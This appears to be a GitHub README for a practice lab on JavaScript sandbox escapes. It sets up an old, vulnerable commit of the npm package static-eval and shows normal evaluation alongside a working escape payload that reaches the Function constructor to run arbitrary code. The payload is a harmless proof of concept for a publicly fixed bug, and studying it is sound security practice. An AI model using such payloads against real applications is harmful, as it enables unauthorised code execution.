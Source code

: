 # JS Sandbox Escape - Playground

This Playground is based on different JS Sandbox technique and it is useful to improve Sandbox escaping technique in JS context.


## static-eval 
- Project 
    - [static-eval](https://www.npmjs.com/package/static-eval) cloned from following commit 
        ```
        git clone git@github.com:browserify/static-eval.git
        git checkout c0e719f6b689b5c0f9fc84125741509891ac10ca
        ```
        Following vulnerability was fixed as described on [static-eval PR-18](https://github.com/browserify/static-eval/pull/18)
- Reference
    -   [maustin.net - Unsafe Code Execution in static-eval](https://maustin.net/articles/2017-10/static_eval?source=post_page---------------------------)

### Build
```
cd static-eval/
npm install
```

### Test Case 
```
$ cat eval.js 
var evaluate = require('../index.js');
var parse = require('esprima').parse;

var src = process.argv.slice(2).join(' ');
var ast = parse(src).body[0].expression;

console.log(evaluate(ast));
```

### Normal Sandboxed Execution
- math
```
node eval.js '1+1'
2

```
- console.log
```
node eval.js 'console.log(1)'
undefined
```


### Sandbox Escape Exploit Example
- console.log

```
node eval.js '(function () {}).constructor("console.log(1)")()'
1
```
